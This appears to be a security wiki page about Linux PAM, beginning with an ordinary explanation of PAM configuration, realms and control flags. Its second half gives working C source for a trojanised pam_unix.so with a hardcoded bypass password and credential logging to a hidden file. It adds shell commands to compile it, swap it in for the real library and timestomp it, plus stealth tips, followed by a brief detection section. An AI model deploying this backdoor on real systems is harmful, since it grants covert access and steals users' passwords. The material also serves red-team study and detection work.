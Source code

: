 # PAM - Pluggable Authentication Modules

### Basic Information

**PAM (Pluggable Authentication Modules)** acts as a security mechanism that **verifies the identity of users attempting to access computer services**, controlling their access based on various criteria. It's akin to a digital gatekeeper, ensuring that only authorized users can engage with specific services while potentially limiting their usage to prevent system overloads.

#### Configuration Files

- **Solaris and UNIX-based systems** typically utilize a central configuration file located at `/etc/pam.conf`.
- **Linux systems** prefer a directory approach, storing service-specific configurations within `/etc/pam.d`. For instance, the configuration file for the login service is found at `/etc/pam.d/login`.

An example of a PAM configuration for the login service might look like this:

```
auth required /lib/security/pam_securetty.so
auth required /lib/security/pam_nologin.so
auth sufficient /lib/security/pam_ldap.so
auth required /lib/security/pam_unix_auth.so try_first_pass
account sufficient /lib/security/pam_ldap.so
account required /lib/security/pam_unix_acct.so
password required /lib/security/pam_cracklib.so
password required /lib/security/pam_ldap.so
password required /lib/security/pam_pwdb.so use_first_pass
session required /lib/security/pam_unix_session.so
```

#### **PAM Management Realms**

These realms, or management groups, include **auth**, **account**, **password**, and **session**, each responsible for different aspects of the authentication and session management process:

- **Auth**: Validates user identity, often by prompting for a password.
- **Account**: Handles account verification, checking for conditions like group membership or time-of-day restrictions.
- **Password**: Manages password updates, including complexity checks or dictionary attacks prevention.
- **Session**: Manages actions during the start or end of a service session, such as mounting directories or setting resource limits.

#### **PAM Module Controls**

Controls dictate the module's response to success or failure, influencing the overall authentication process. These include:

- **Required**: Failure of a required module results in eventual failure, but only after all subsequent modules are checked.
- **Requisite**: Immediate termination of the process upon failure.
- **Sufficient**: Success bypasses the rest of the same realm's checks unless a subsequent module fails.
- **Optional**: Only causes failure if it's the sole module in the stack.

#### Example Scenario

In a setup with multiple auth modules, the process follows a strict order. If the `pam_securetty` module finds the login terminal unauthorized, root logins are blocked, yet all modules are still processed due to its "required" status. The `pam_env` sets environment variables, potentially aiding in user experience. The `pam_ldap` and `pam_unix` modules work together to authenticate the user, with `pam_unix` attempting to use a previously supplied password, enhancing efficiency and flexibility in authentication methods.

## Backdooring PAM – Hooking `pam_unix.so`

A classic persistence trick in high-value Linux environments is to **swap the legitimate PAM library with a trojanised drop-in**.  Because every SSH / console login ends up calling `pam_unix.so:pam_sm_authenticate()`, a few lines of C are enough to capture credentials or implement a *magic* password bypass.

### Compilation Cheatsheet
```c
#define _GNU_SOURCE
#include <security/pam_modules.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static int (*orig)(pam_handle_t *, int, int, const char **);
static const char *MAGIC = "Sup3rS3cret!";

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    const char *user, *pass;
    pam_get_user(pamh, &user, NULL);
    pam_get_authtok(pamh, PAM_AUTHTOK, &pass, NULL);

    /* Magic pwd → immediate success */
    if(pass && strcmp(pass, MAGIC) == 0) return PAM_SUCCESS;

    /* Credential harvesting */
    int fd = open("/usr/bin/.dbus.log", O_WRONLY|O_APPEND|O_CREAT, 0600);
    dprintf(fd, "%s:%s\n", user, pass);
    close(fd);

    /* Fall back to original function */
    if(!orig) {
        orig = dlsym(RTLD_NEXT, "pam_sm_authenticate");
    }
    return orig(pamh, flags, argc, argv);
}
```

Compile and stealth-replace:
```bash
gcc -fPIC -shared -o pam_unix.so trojan_pam.c -ldl -lpam
mv /lib/security/pam_unix.so /lib/security/pam_unix.so.bak
mv pam_unix.so /lib/security/pam_unix.so
chmod 644 /lib/security/pam_unix.so     # keep original perms
touch -r /bin/ls /lib/security/pam_unix.so  # timestomp
```

### OpSec Tips
1. **Atomic overwrite** – write to a temp file and `mv` into place to avoid half-written libraries that would lock out SSH.
2. Log file placement such as `/usr/bin/.dbus.log` blends with legitimate desktop artefacts.
3. Keep symbol exports identical (`pam_sm_setcred`, etc.) to avoid PAM mis-behaviour.

### Detection
* Compare MD5/SHA256 of `pam_unix.so` against distro package.
* Check for world-writable or unusual ownership under `/lib/security/`.
* `auditd` rule: `-w /lib/security/pam_unix.so -p wa -k pam-backdoor`.

### References

- [https://hotpotato.tistory.com/434](https://hotpotato.tistory.com/434)
- [Palo Alto Unit42 – Infiltration of Global Telecom Networks](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)

